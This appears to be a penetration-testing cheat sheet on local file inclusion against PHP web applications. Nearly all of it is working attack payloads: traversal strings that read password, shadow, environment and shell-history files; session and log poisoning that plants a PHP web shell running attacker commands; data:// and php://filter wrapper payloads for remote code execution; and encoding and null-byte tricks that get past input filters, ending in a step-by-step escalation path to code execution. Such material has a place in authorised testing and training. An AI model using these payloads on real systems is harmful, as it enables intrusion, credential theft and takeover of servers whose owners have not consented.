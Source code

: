 # read server files via path manipulation. escalate to rce.

## quick test payloads

basic file reads:
```
?file=/etc/passwd
?page=../../../etc/passwd
?include=../../../../etc/shadow
?lang=/var/log/apache2/access.log
```

common sensitive files:
```
/etc/passwd          # user accounts
/etc/shadow          # password hashes
/var/log/apache2/access.log  # web server logs
/var/lib/php/sessions/       # php session files
/proc/self/environ   # environment variables
/var/www/html/config.php     # app configuration
```

## php session poisoning

inject code into session, then include session file:

1. send php code in any parameter:
```
POST /app.php
session_data=<?php system($_GET['cmd']); ?>
```

2. include your session file:
```
?file=/var/lib/php/sessions/sess_[YOUR_PHPSESSID]&cmd=id
```

session id found in browser cookies.

## log poisoning

inject php code into access logs, then include log file:

1. send malformed request with php code:
```bash
nc target.com 80
<?php system($_GET['cmd']); ?>
```

2. include access log:
```
?file=/var/log/apache2/access.log&cmd=whoami
```

## php wrapper exploitation

**data wrapper rce:**
```php
# encode payload: <?php system($_GET['cmd']); ?>
# base64: PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+&cmd=id
```

**filter wrapper with data:**
```
?file=php://filter/convert.base64-decode/resource=data://text/plain,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+&cmd=whoami
```

## filter bypass techniques

**path traversal variations:**
```
../../../etc/passwd
....//....//....//etc/passwd
..///////../../../etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

**null byte injection (php < 5.3.4):**
```
?file=/etc/passwd%00
?file=../../../etc/passwd%00.jpg
```

**bypass path sanitization:**
```
# if ../ is filtered
....//....//....//etc/passwd

# mixed encodings
..%2f..%2f..%2fetc%2fpasswd
..%5c..%5c..%5cetc%5cpasswd
```

**bypass file extension appending:**
```
# if .php is auto-appended
/etc/passwd/.
/etc/passwd/..
/etc/passwd%00
```

## file discovery

common php configuration paths:
```
/var/www/html/config.php
/var/www/config/database.php
/etc/apache2/sites-enabled/000-default
/home/user/.bashrc
/root/.bash_history
```

log file locations:
```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/auth.log
/var/log/mail.log
/var/log/syslog
```

session directories:
```
/var/lib/php/sessions/
/tmp/
/var/tmp/
```

## operational notes

- [!] log poisoning affects all users - test carefully
- session poisoning requires valid session cookie
- php wrappers need `allow_url_include=On`
- error messages reveal file paths and restrictions
- always try multiple encoding methods for filters

**escalation path:**
1. find lfi vulnerability
2. attempt direct file reads for sensitive data
3. try session/log poisoning for rce
4. use php wrappers if url includes enabled

# TODO: add windows lfi payloads and file paths